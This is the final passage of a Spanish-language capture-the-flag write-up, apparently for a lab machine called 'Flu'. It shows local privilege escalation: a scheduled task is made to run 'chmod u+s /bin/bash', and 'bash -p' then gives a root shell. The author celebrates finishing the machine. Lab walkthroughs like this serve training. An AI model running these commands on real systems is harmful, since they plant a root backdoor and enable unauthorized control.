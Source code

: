 ```bash
chmod u+s /bin/bash
```

<p align="center">
<img src="/assets/images/pg-writeup-flu/Pasted image 20250228235356.png">
</p>

Esperamos a que la tarea se ejecute de nuevo y:

<p align="center">
<img src="/assets/images/pg-writeup-flu/Pasted image 20250228235443.png">
</p>

Ahora la bash tiene el privilegio `SUID`


Ejecutamos esto:

```bash
bash -p
```

Y ya somos `root`

Máquina completada 😎

<p align="center">
<img src="/assets/images/leonardo-dicaprio-clapping.gif">
</p>

Gracias por leer.


